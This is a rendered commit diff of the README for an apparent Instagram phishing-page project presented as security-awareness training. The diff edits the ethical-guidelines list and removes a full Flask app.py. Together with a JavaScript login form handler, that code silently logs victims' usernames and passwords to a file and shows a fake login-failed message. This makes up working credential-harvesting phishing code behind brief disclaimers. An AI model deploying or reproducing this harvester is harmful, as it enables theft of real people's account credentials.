

Before and after one commit to AUX-441/Instagram-Phishing-Page, a Markdown page: README.md, the part around the change printed below. Shown: that part at 94% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -90,7 +93,6 @@ javascript
 function login() {
     var loginuser = document.getElementById("username").value;
     var pass = document.getElementById("password").value;
-
     if (loginuser && pass) {
         fetch("/login", {
             method: "POST",
@@ -105,71 +107,19 @@ function login() {
 ✅ Ethical Guidelines
 If you plan to use this tool for a demo or training:
 
-✔ Always get written permission if testing with real users
-❌ Do not deploy on public websites or production environments
+✅ Always get written permission if testing with real users
+
+🚫 Do not deploy on public websites or production environments
+
 🔐 Make it clear that the page is part of a simulation
+
 🧹 Delete all captured data after the test or training session
 
 📜 License
-This project is licensed under the MIT License – free to use, modify, and distribute with attribution.
+This project is licensed under the MIT License – feel free to use, modify, and distribute with attribution.
 
 👨‍💻 Author
 Educational Project by [YourName]
 Security Awareness & Ethical Hacking Trainer
 
-Stay secure. Stay informed.
-
-text
-
-### Additional Files:
-
-1. **requirements.txt**
-Flask==2.3.2
-Werkzeug==2.3.7
-
-text
-
-2. **app.py**
-```python
-from flask import Flask, render_template, request, jsonify
-from datetime import datetime
-import os
-
-app = Flask(__name__)
-
-@app.route('/')
-def index():
-    return render_template('index.html')
-
-@app.route('/login', methods=['POST'])
-def login():
-    try:
-        data = request.get_json()
-        username = data.get("loginuser")
-        password = data.get("password")
-        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
-
-        with open("credentials.txt", "a") as f:
-            f.write(f"{timestamp} - {username}:{password}\n")
-
-        return jsonify({
-            "message": "Login failed. Incorrect username or password."
-        })
-    except Exception as e:
-        return jsonify({"message": f"Error: {str(e)}"}), 500
-
-if __name__ == '__main__':
-    app.run(debug=True)
-This README provides:
-
-Clear legal disclaimer
-
-Project description
-
-Setup instructions
-
-Technical details
-
-Ethical guidelines
-
-Complete documentation
+Stay secure. Stay informed. ✅
````
Also changed, not shown: other parts of README.md (+45 -42 lines).
